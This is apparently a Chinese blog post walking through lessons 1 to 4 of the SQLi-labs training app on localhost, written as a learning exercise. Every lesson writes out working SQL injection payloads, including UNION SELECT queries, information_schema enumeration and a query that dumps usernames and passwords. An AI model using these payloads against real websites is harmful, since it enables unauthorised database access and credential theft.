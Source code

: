 ```yaml
---
title: sqli labs lesson 1~4 学习
date: 2016-08-24 21:46:03
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---
```

# 1 lesson 1：基于错误 – 单引号
## 1.1 测试
输入URL  ` http://localhost/sqli-labs-master/Less-1/?id=1 `
![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f75rh022ipj30fy05xdgk.jpg)

在上述网址后面添加单引号 '   `http://localhost/sqli-labs-master/Less-1/?id=1%27 `
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1f75rvy5dn9j30nq05mmyk.jpg)

根据错误信息，推测sql语句类似  ` SELECT * FROM tables WHERE id='$id' LIMIT 0,1`
<font color="red">$id是被单引号包裹的</font>

## 1.2 猜测字段个数
使用 order by 判断字段个数
- 参数 $id = `' order by 5#`
- 输入URL `http://localhost/sqli-labs-master/Less-1/?id=%27%20order%20by%205%23`
- sql语句：`SELECT * FROM tables WHERE id='$id' LIMIT 0,1`，将参数 $id = `' order by 5#`带入，即得 `SELECT * FROM tables WHERE id='' order by 5#' LIMIT 0,1`
- 说明：浏览器对 URL 会转码；第一个单引号闭合sql语句中的单引号；#是数据库注释，注释掉后面的单引号和limit

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f75smugixtj30ca03xdfz.jpg)

直到输入参数 $id = `' order by 3#`，页面正常显示
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1f75sddgu6hj30c903wq2v.jpg)

<font color="red"> 
说明原sql语句的结果有三个字段
sql 语句类似 `select col1,col2,col3 from tables where id = '$id' limit 0,1`
</font>

## 1.3 union 查询数据库版本和数据库名
- 参数 $id = `' union select 1,2,3%23`
- URL `http://localhost/sqli-labs-master/Less-1/?id=%27%20union%20select%201,2,3%23`

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f75sscqjybj30cb03xq38.jpg)

查看版本和数据库
- 参数 $id = `' union select 1,version(),database()%23`
- URL `http://localhost/sqli-labs-master/Less-1/?id=%27%20union%20select%201,version(),database()%23`

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f75sni3booj30cb03v0t3.jpg)

- 数据库版本 5.6.17
- 数据库名 security

## 1.4 利用 information_schema 获得信息
关于 information_schema 数据库信息，参见 [INFORMATION_SCHEMA 数据库](http://huirong.github.io/2016/08/24/information-schema/)
### 1.4.1 数据库名
- 参数 $id = `' union select 1,2,(select group_concat(distinct schema_name) from information_schema.schemata)%23`

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f75sx1egqnj30sc03xdgt.jpg)

本地数据库中的数据有：information_schema,challenges,mysql,performance_schema,security,test
本项目的数据库为：security
### 1.4.2 表名
- 参数 $id = `' union select 1,2,(select group_concat(distinct table_name) from information_schema.tables where table_schema = "security")%23`

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f75tjf3xqdj30ft045jry.jpg)

security 数据中的表：emails,referers,uagents,users

### 1.4.3 字段名
- 参数 $id = `' union select 1,2,(select group_concat(distinct column_name) from information_schema.columns where table_schema = "security")%23`

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f75torfahjj30oe04g759.jpg)

users 表中的字段：id,email_id,referer,ip_address,uagent,username,password

### 1.4.4 账号和密码
- 参数 $id = `' union select 1,(select group_concat(distinct username) from users),(select group_concat(distinct password) from users)%23`
- URL `http://localhost/sqli-labs-master/Less-1/?id=%27%20union%20select%201,(select%20group_concat(distinct%20username)%20from%20users),(select%20group_concat(distinct%20password)%20from%20users)%23`

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f75ttggpvjj311503fdi1.jpg)

# 2 lesson 2 基于错误 – 数字型
## 2.1 测试
- 参数 $id = `1'`
- URL `http://localhost/sqli-labs-master/Less-2/?id=1%27`
- 错误 `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1`

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f76056s2twj30zh02xmy3.jpg)

说明sql语句类似：`select * from tables where id = $id LIMIT 0,1`，没有单引号，直接是数字型。

## 2.2 数据库版本和名称
- 参数 $id = `1 and 1=0 union select 1,2,3%23`
- URL `http://localhost/sqli-labs-master/Less-2/?id=1%20and%201=0%20union%20select%201,version(),database()%23`

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1f760kucepdj30cb03x74o.jpg)

其他步骤同 lesson 1。

# 3 lesson 3 基于错误-有括号单引号
## 3.1 测试
- 参数 $id = `1'`
- URL `http://localhost/sqli-labs-master/Less-3/?id=1%27`
- 错误 `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1`
![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f760hn80gvj310e0353zg.jpg)

sql 语句 select * from tables where id = ('$id') limit 0,1

## 3.2 数据库版本和名称
- 参数 $id = `') union select 1,version(),database()%23`
- URL `http://localhost/sqli-labs-master/Less-3/?id=%27)%20union%20select%201,version(),database()%23`

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f760mzp1alj30cb03xgm0.jpg)

# 4 lesson 4 基于错误-有括号双引号
## 4.1 测试
- 参数 $id = `1'` 页面没有错误，继续测试  $id = `1"` ，页面出错
- URL `http://localhost/sqli-labs-master/Less-4/?id=1%22`
- 错误 `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1`

![](http://ww3.sinaimg.cn/large/005CA6ZCjw1f7610l00g9j310h02s3zh.jpg)

sql 语句：select * from tables where id = ("$id") limit 0,1

## 4.2 数据库版本和名称
- 参数 $id = `") union select 1,version(),database()%23`
- URL `http://localhost/sqli-labs-master/Less-4/?id=%22)%20union%20select%201,version(),database()%23`

# 5 参考文献
[SQLI-LABS SERIES PART - 2,3,4,5](http://dummy2dummies.blogspot.com/2012/06/sqli-lab-series-part2.html)



